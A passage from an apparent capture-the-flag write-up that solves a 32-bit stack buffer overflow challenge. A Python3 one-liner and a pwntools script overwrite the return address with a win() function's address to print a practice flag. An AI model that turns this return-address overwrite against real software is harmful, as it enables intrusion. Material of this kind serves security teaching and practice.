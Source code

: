 That's it, we've got the flag after calling the `win()` function.

#### Python3 One-Line Exploit:
The Python3 exploit works the same way as the Python2 exploit, however when you print byte strings in Python3, it tends to break the strings and they don't output as you want them to. To get around this, you can use the `sys` module and the function `sys.stdout.buffer.write()` to output the raw bytes.

```
python3 -c 'import sys;sys.stdout.buffer.write(b"A"*44 + b"\xf6\x91\x04\x08")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<win() address>
```

Now, we can pipe the output from our Python3 command into the binary when we run it.

```
python3 -c 'import sys;sys.stdout.buffer.write(b"A"*44 + b"\xf6\x91\x04\x08")'

Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
flag{fake_flag_for_testing}
```

Perfect, we got the flag again. Now we can move onto writing the `pwntools` exploit script.

#### Pwntools Exploit Script:
To write the exploit, we need to import the `pwntools` module, before anything else, then we can move onto building the final payload which we will send to the binary.

```
from pwn import *

context.binary = binary = ELF("./vuln")

offset = 44
buffer = b"A"*offset

win_address = p32(0x080491f6)

payload = buffer + win_address

p = binary.process()

p.sendlineafter(b":", payload)
print(p.recvallS())

p.close()
```

Running the script with `python3 exploit.py`, we get the output from the binary as well as the flag:
```
[*] './vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No

[+] Starting local process './vuln': pid 162645
[+] Receiving all data: Done (93B)
[*] Stopped process './vuln' (pid 162645)
 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
flag{fake_flag_for_testin}
```